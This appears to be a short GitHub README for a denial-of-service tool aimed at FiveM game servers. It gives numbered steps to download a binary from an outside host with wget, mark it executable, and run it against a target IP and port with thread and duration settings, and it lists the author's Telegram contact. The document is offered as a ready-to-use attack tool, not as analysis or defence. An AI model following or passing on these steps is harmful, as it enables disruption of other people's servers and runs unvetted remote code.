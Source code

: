# FIVEM-DDOS
FıveM DDOS SCRIPT

Step 1: open your linux server with PuTTY

Step 2: wget http://upload.vina-host.com/MCSHx/SchneeFIVEM

Step 3: chmod 777 SchneeFIVEM

Step 4: ./SchneeFIVEM İp Port Thread Time

Info: CTRL+C = Stop Attack

My Telegram: https://t.me/Schnee1337
